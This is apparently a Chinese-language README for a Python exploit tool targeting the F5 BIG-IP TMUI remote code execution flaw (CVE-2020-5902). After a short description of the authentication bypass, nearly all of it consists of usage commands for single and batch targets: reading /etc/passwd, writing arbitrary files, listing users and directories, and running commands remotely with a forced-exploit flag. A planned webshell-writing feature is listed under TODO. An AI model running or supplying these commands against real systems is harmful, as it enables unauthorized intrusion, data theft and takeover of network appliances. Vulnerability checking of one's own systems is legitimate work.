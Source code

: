 F5 BIG-IP RCE（CVE-2020-5902）漏洞检测工具
==


# Summary

20200706，网上曝出F5 BIG-IP TMUI RCE漏洞。

F5 BIG-IP的TMUI组件（流量管理用户界面）存在认证绕过漏洞，该漏洞在于Tomcat解析的URL与request.getPathInfo()存在差异，导致可绕过权限验证，未授权访问TMUI模块所有功能，进而可以读取/写入任意文件，命令执行等。

详情参考[F5 BIG-IP TMUI RCE漏洞（CVE-2020-5902）重现及注意点 ](https://www.lsablog.com/networksec/penetration/f5-bigip-tmui-rce-cve-2020-5902-reproduce/)

本工具支持单IP检测，批量IP检测，可进行文件读写，列认证用户，列目录，远程命令执行和hsqldb认证绕过检测


# Quick start

pip install requests


## hlep

python f5-bigip-rce-cve-2020-5902.py -h

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce00.png)

## poc check

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --check

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce09.png)

## batch poc check

python f5-bigip-rce-cve-2020-5902.py -f 1-2-f5.txt --check -t 20 -s 10

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce10.png)

## read file

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --fileread "/etc/passwd"

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce01.png)

## save file

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --filepath "/tmp/xxx.txt" --filecontent "x"

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce02.png)

## list auth user

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --list-users

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce03.png)

## list directory

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --listdir "/tmp/"

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce04.png)

## RCE

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --rce id --still-exploit

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce05.png)

## batch RCE

python f5-bigip-rce-cve-2020-5902.py -f 1-2-f5.txt --rce whoami --still-exploit -s 15 -t 20

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce06.png)


## hsqldb bypass check

python f5-bigip-rce-cve-2020-5902.py -u "https://1.2.3.4" --bypass-hsqldb

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce07.png)

## batch hsqldb bypass check

python f5-bigip-rce-cve-2020-5902.py -f 1-2-f5.txt --bypass-hsqldb

![](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/raw/master/img/f5rce08.png)


# Note

**批量的IP尽量在开头加上http:\/\/或https:\/\/，如果没有协议，会默认加上http:\/\/**

条件允许的情况下建议加上--still-exploit参数，即使list auth user失败也进行rce，增加成功率。


# TODO

1. 多次发请求增加批量成功率，需要权衡效率问题

2. 集成hsqldb接口反序列化利用

3. 增加自动化写webshell


# Feedback
[issus](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902/issues)
<br/>
[lsablog](https://www.lsablog.com/networksec/penetration/f5-bigip-tmui-rce-cve-2020-5902-reproduce/)
<br>
gmail：lsasguge196@gmail.com
<br/>
qq：2894400469@qq.com
